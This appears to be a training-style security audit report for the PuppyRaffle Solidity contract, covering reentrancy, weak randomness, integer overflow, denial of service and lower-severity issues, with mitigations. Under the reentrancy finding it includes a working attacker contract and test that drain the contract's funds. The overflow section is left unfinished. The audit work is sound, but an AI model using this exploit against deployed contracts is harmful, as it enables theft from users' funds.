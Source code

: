 ### [H-1] Reentrancy Attack in `PuppyRaffle:: refund` allows entrant to drain raffle balance

**Description:** The `PuppyRaffle::refund` function doe not follow CEI (Checks, Effects, Interactions) and as a result, enables participants to drain the contract balance.

In the `PuppyRaffle::refund` function, we first make an external call to the `msg.sender` address and only after making that external call do we update the `PuppyRaffle::players` array.

```javascript
    function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

@>      payable(msg.sender).sendValue(entranceFee);
@>      players[playerIndex] = address(0);

        emit RaffleRefunded(playerAddress);
    }

```

A player who has entered the raffle could have a `fallback`/`receive` function that calls the `PuppyRaffle::refund` function again and claim another refund. They could continue the cycle till the contract balance is drained. 

**Impact:** All fees paid by raffle entrants could be stolen by the malicious participant.

**Proof Of Concept:** 

1. User enters the raffle
2. Attacker sets up a contract with a `fallback` function that calls `PuppyRaffle::refund`
3. Attacker enters the raffle
4. Attacker calls `PuppyRaffle::refund` from their attack contract, draining the contract balance.
   
**Proof of Code**
<details> 
<summary>Code</summary>

Place the following into `PuppyRaffleTest.t.sol`

```javascript
function test_ReentrancyFund() public {
        address[] memory players = new address[](4);
        players[0] = playerOne;
        players[1] = playerTwo;
        players[2] = playerThree;
        players[3] = playerFour;
        puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

        ReentrancyAttacker attackerContract = new ReentrancyAttacker(puppyRaffle);
        address attackUser = makeAddr("attackUser");
        vm.deal(attackUser, 1 ether);

        uint256 startingAttackContractBalance = address(attackerContract).balance;
        uint256 startingContractBalance = address(puppyRaffle).balance;

        console.log("Starting attacker contract balance: ", startingAttackContractBalance);
        console.log("Starting contract balance: ", startingContractBalance);

        // attack
        vm.prank(attackUser);
        attackerContract.attack{value: entranceFee}();

        console.log("ending attacker contract balance: ", address(attackerContract).balance);
        console.log("ending contract balance: ", address(puppyRaffle).balance);
    }
```

and this contract as well

```javascript
contract ReentrancyAttacker {
    PuppyRaffle puppyRaffle;
    uint256 entranceFee;
    uint256 attackerIndex;

    constructor(PuppyRaffle _puppyRaffle) {
        puppyRaffle = _puppyRaffle;
        entranceFee = puppyRaffle.entranceFee();
    }

    function attack() external payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);

        attackerIndex = puppyRaffle.getActivePlayerIndex(players[0]);
        puppyRaffle.refund(attackerIndex);
    }

    function _stealMoney() internal {
        if (address(puppyRaffle).balance >= entranceFee) {
            puppyRaffle.refund(attackerIndex);
        }
    }

    fallback() external payable {
        _stealMoney();
    }

    receive() external payable {
        _stealMoney();
    }
}
```

</details> 

**Recommended Mitigation:** To prevent this, we should have the `PuppyRaffle:refund` function update `players` array before making the exteral call. Additionally,we should move the event emission up as well.

```diff
    function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

+       players[playerIndex] = address(0);
+       emit RaffleRefunded(playerAddress);

        payable(msg.sender).sendValue(entranceFee);

-       players[playerIndex] = address(0);
-       emit RaffleRefunded(playerAddress);
    }

```

### [H-2] Weak Randomness in `PuppyRaffle::selectWinner` allows users to influence or predict the winner and influence or predict the winning puppy.

**Description:** Hashing `msg.sender`, `block.timestamp`, and `block.difficulty` together creates a predictable find number. A predictable number is not a good random number. Malicious ysers can manipulate these values or know them ahead of time to choose the winner of the raffle themselves.


*Note:* This means users can front-run this function and call `refund` if they see they are not the winner

**Impact:** Any user can influence the winner of the raffle, winning the money and selecting the `rarest` puppy. Making the entire raffle worthless if it becomes a gas war as to who wins the raffle.

**Proof Of Concept:**
1. Validators can know ahead of time the `block.timestamp` and `block.difficulty` and use that to predict when/how to participate. See the [solidity blog on prevrandao](https://soliditydeveloper.com/prevrandao). `block.difficulty` was recently replaced with prevrandao.
2. User can mine/manipulate their `msg.sender` value to result in their address being used to generate the winner!
3. Users can revert their `selectWinner` transcation if they don't like the winner or resulting puppy.

Using on-chain values as a randomness seed is a [well-documented attack vector](https://betterprogramming.pub/how-to-generate-truly-random-numbers-in-solidity-and-blockchain-9ced6472dbdf) in theblockchain space.


**Recommended Mitigation:** Consider using a cryptographically provable random number generator such as chainlink VRF.

### [H-3] Integer overflow of `PuppyRaffle::totalFees` loses fees

**Description:** In solidity version prior to `0.8.0` integers were subject to integer overflows.

```javascript
uint64 myVar = type(uint64).max;
// 18446744073709551615
myVar = myVar + 1
// myVar will be 0
```

**Impact:** In `PuppyRaffle::selectWinner`, `totalFees` are accumulated for the `feeAddress` to collect later in `PuppyRaffle::withdrawFees`. However, if the `totalFees` variable overflows, the `feeAddress` may not collect the correct the correct amount of fees, leaving fees permantely stuck in the contract.

**Proof Of Concept:**
<details> 
<summary>Code</summary>

Place the following into `PuppyRaffleTest.t.sol`

```javascript

```

<details>

**Recommended Mitigation:**


### [M-#] Looping through players array to check for duplicates in `PuppyRaffle::enterRaffle` is a potential denial of service (DoS) attack, incrementing gas costs for future entrants.

**Description:** The `PuppyRaffle::enterRaffle` function loops through the `players` array to check for duplicates. However, the longer the `PuppyRaffle::Players` array is, the more checks a new player will have to make. This means the gas costs for players who enter right when the raffle stats will be dramatically lower than those whose enter later. Every Additional address in the `players` array, is an aadditional check the loop will have to make.

```javascript
// @audit DoS Attack
@>      for (uint256 i = 0; i < players.length - 1; i++) {
            for (uint256 j = i + 1; j < players.length; j++) {
                require(players[i] != players[j], "PuppyRaffle: Duplicate player");
            }
        }
```

**Imapct:** The gas costs for raffle entrants will grately incraese as more players enter the raffle. Discourging later users from entering, and cauisng a rush at the start of a raffle to be one of the first entrats in the queue.

An attacker might make the `PuppyRaffle::entrants` arrays so big, that no one else enters, guarenteeing themselves the win.

**Proof of Concept:**
if we have 2 sets of 100 players enter, the gas costs will be as such:
- 1st 100 players: 6254372
- 2nd 100 players: 18070466

This is more than 3x more expensive for the second 100 players

<details>
<summary?>PoC</summary>
Place the following test into `PuppyRaffleTest.t.sol`

```javascript
function testDosAttack() public {
        vm.txGasPrice(1);
        uint160 playersNum = 100;
        address[] memory newPlayers = new address[](playersNum);
        for (uint160 i; i < playersNum; i++) {
            newPlayers[i] = address(i);
        }
        uint256 gasStart = gasleft();
        address user = makeAddr("user");
        vm.deal(user, 1000000 ether);
        puppyRaffle.enterRaffle{value: entranceFee * playersNum}(newPlayers);
        uint256 gasEnd = gasleft();
        uint256 gasUsedFirst = (gasStart - gasEnd) * tx.gasprice;
        uint256 gasUsedFirst1 = (gasStart - gasEnd);
        console.log("Gas cost of the first 100 players: ", gasUsedFirst);

        // now for the second 100 people
        address[] memory newPlayers2 = new address[](playersNum);
        for (uint160 i; i < playersNum; i++) {
            newPlayers[i] = address(i + playersNum);
        }
        uint256 gasStart2 = gasleft();
        address user2 = makeAddr("user2");
        vm.deal(user2, 1000000 ether);
        puppyRaffle.enterRaffle{value: entranceFee * playersNum}(newPlayers);
        uint256 gasEnd2 = gasleft();
        uint256 gasUsedSecond = (gasStart2 - gasEnd2) * tx.gasprice;
        uint256 gasUsedSecond1 = (gasStart2 - gasEnd2);
        console.log("Gas cost of the first 100 players: ", gasUsedSecond);

        assert((gasUsedFirst * 2) < gasUsedSecond);
    }
```
</details>

**Recommended Mitigation** There are a few recomendations.
1. Consider allowing duplicates. Users can make new wallet addresses anyways, so a duplicate check doesn't prevent the same person from entering multiple times, only the same wallet address.
2. Consider using a mapping to check for duplicates. This would allow constant time lookup of whether a user has already entered.

```diff
+  mapping(address => uint256) public addressToRaffleId;
+  uint256 public raffleId = 0;
    .
    .
    .
    function enterRaffle(address[] memory newPlayers) public payable {
        require(msg.value == entranceFee * newPlayers.length, "PuppyRaffle: Must send enough to enter raffle");
        for (uint256 i = 0; i < newPlayers.length; i++) {
            players.push(newPlayers[i]);
            addressToRaffleId[newPlayers[i]] = raffleId;
        }
       
+       // Check for duplicates only from the new players
+        for(uint256 i=0; i < newPlayers.length; i++){
+            require(addressToRaffleId[newPlayers[i]] != raffleId, "PuppyRaffle: Duplicate player");
+        }


-        // Check for duplicates
-        for (uint256 i = 0; i < players.length - 1; i++) {
-            for (uint256 j = i + 1; j < players.length; j++) {
-                require(players[i] != players[j], "PuppyRaffle: Duplicate player");
-            }
-        }


        emit RaffleEnter(newPlayers);
    }
```

Alternatively, you can use [Openzeppelin's Enumerable Library](https://docs.openzeppelin.com/contracts/4.x/api/utils#EnumerableSet)

# Low
### [L-1] `PuppyRaffle::getActivePlayerIndex` returns 0 for non-existent players and for players at index 0, causing a player at index 0 to incorrectly think they have not entered the raffle.

**Description:** If a player is in the `PuppyRaffle::players` array at index 0, this will return 0, but according to the netspec, it will also return 0 if the player is not in the array.

```javascript
    function getActivePlayerIndex(address player) external view returns (uint256) {
        for (uint256 i = 0; i < players.length; i++) {
            if (players[i] == player) {
                return i;
            }
        }
        return 0;
    }
```

**Impact** A player at index 0 to incorrectly think they have not entered the raffle, and attempt to enter the raffle again, wasting gas.

**Proof of Concept:**

1. User enters the raffle, they are thefist entant
2. `PuppyRaffle::getActivePlayerIndex` returns 0
3. User thinks they have not entered correctly due to the functio documentation

**Recommended Mitigation:** The easiest recommendation would be to revert if the player is not in the array instead of returning 0.

You could also reserve the 0th position for any competition, but a better solution might be to return as `int256` where the function returns -1 if the player is not active.


### [I-1]: Solidity pragma should be specific, not wide
Consider using a specific version of Solidity in your contracts instead of a wide version. For example, instead of `pragma solidity ^0.7.6;`, use `pragma solidity 0.7.6;`

- Found in src/PuppyRaffle.sol [Line: 2](src/PuppyRaffle.sol#L2)

	```solidity
	pragma solidity ^0.7.6;
	```

### [I-2] Using an outdated version of solidity is not recommended.
Please use newer version like `0.8.18`

solc frequently releases new compiler versions. Using an old version prevents access to new Solidity security checks. We also recommend avoiding complex pragma statement.

**Recommendation**
Deploy with any of the following Solidity versions:

`0.8.18`

The recommendations take into account:
- Risks related to recent releases
- Risks of complex code generation changes
- Risks of new language features
- Risks of known bugs
- Use a simple pragma version that allows any of these versions. Consider using the latest version of Solidity for testing.

Please read Slither [recommendation](https://github.com/crytic/slither/wiki/Detector-Documentation#incorrect-versions-of-solidity) to understand more

### [I-3]: Missing checks for `address(0)` when assigning values to address state variables

Assigning values to address state variables without checking for `address(0)`.

- Found in src/PuppyRaffle.sol [Line: 69](src/PuppyRaffle.sol#L69)

	```solidity
	        feeAddress = _feeAddress;
	```

- Found in src/PuppyRaffle.sol [Line: 174](src/PuppyRaffle.sol#L174)

	```solidity
	        previousWinner = winner;
	```

- Found in src/PuppyRaffle.sol [Line: 198](src/PuppyRaffle.sol#L198)

	```solidity
	        feeAddress = newFeeAddress;
	```

### [I-4] `PuppyRaffle::selectWinner` does not follow CEI, which is not a best practice
It's best to keep code clean and fellow CEI (Checks, Effects, Interactions)

```diff
-       (bool success,) = winner.call{value: prizePool}("");
-       require(success, "PuppyRaffle: Failed to send prize pool to winner");

        _safeMint(winner, tokenId);
+       (bool success,) = winner.call{value: prizePool}("");
+       require(success, "PuppyRaffle: Failed to send prize pool to winner");
```

# Gas
### [G-1] Unchanged state variables should be declared constant or immutable.

Reading from storage is much more expensive than reading from a constant or immutable variable.

Instances:
- `PuppyRaffle::raffleDuration` should be `immutable`
- `PuppyRaffle::commonImageUri` should be `constant`
- `PuppyRaffle::rareImageUri` should be `constant`
- `PuppyRaffle::legendaryImageUri` should be `constant`

### [G-2] Storage variable in a loop should be cached

Everytime you call `players.length` you read from storage, as opposed to memory which is more gas efficient.

```diff
+   uint256 playersLength = newPlayers.length;
-    for (uint256 i = 0; i < newPlayers.length; i++) {
+    for (uint256 i = 0; i < playersLength; i++) {
            players.push(newPlayers[i]);
        }
```

### [I-5] Use of "Magic" numbers is discouraged

It can be confusing to see number literal in a codebase, and it's much more readable if the numbers are given a name.

Examples:
```Javascript
    uint256 prizePool = (totalAmountCollected * 80) / 100;
    uint256 fee = (totalAmountCollected * 20) / 100;
```
Instead, you can use:

```javascript
    uint256 public constant PRIZE_POOL_PERCENTAGE = 80;
    uint256 public constant FEE_PERCENTAGE = 20;
    uint256 public constant POOL_PERCENTAGE = 100;
```
